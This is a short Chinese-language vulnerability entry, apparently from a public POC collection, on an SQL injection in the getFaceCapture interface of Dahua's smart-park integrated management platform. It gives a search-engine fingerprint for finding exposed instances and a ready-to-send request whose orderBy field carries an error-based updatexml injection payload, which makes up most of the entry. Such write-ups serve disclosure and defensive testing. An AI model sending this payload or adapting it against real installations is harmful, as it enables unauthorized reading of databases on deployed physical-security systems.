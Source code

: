 # 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>智慧园区综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163925217.png)



请求POC

```php
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691823619224-89ff3b9c-ee7b-4051-abdf-bdb259873043.png)